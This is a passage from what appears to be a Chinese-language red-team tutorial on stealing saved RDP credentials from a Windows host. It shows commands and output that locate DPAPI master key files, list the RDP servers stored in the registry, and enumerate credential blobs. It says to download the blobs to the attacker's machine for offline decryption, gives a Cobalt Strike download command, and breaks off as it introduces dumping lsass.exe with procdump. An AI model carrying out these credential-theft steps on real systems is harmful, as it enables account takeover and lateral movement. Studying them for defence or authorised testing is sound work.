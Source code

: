 ```console
C:\Windows\System32>whoami /user

用户信息
----------------

用户名               SID
==================== ============================================
desktop-test\test    S-1-5-21-102229053-337446436-1419803206-1001

# 用户 Master Key Files 位置
C:\Windows\System32>dir /a /b /s %APPDATA%\Microsoft\Protect\
C:\Users\test\AppData\Roaming\Microsoft\Protect\CREDHIST
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\273001c6-c88c-422a-aecb-daa6f950f8d0
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\52c3460d-2e8b-4764-957c-57185d4d62b2
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\Preferred
```

> 注：Master Key File 的同级目录还有一个 Preferred 文件，显示当前系统正在使用的 MasterKey 及其过期时间，默认 90 天有效期。

从注册表中查看 RDP 连接过的服务器：

```console
C:\Windows\System32> reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s

HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers\192.168.70.130
    UsernameHint    REG_SZ    DESKTOP-TEST\administrator
```

将目标主机上存在连接凭证的 RDP 会话文件，下载到攻击者本地环境再进行离线解密：

```console
C:\Windows\System32> dir /a /q %userprofile%\AppData\Local\Microsoft\Credentials\
 驱动器 C 中的卷没有标签。
 卷的序列号是 E8C4-028B

 C:\Users\test\AppData\Local\Microsoft\Credentials 的目录

2023/11/24  15:30    <DIR>          DESKTOP-TEST\test   .
2023/11/24  15:30    <DIR>          DESKTOP-TEST\test   ..
2023/11/24  15:30               482 DESKTOP-TEST\test   84BD531FDD20A7ED510558FA8768BA20
2023/10/24  00:23            11,106 DESKTOP-TEST\test   DFBE70A7E5CC19A398EBF1B96859CE5D
               2 个文件         11,588 字节
               2 个目录 33,538,547,712 可用字节

```

> 注 - CS 下载文件命令：`download %userprofile%\AppData\Local\Microsoft\Credentials\*`

使用 [procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump) 转储 lsass.exe 进程：
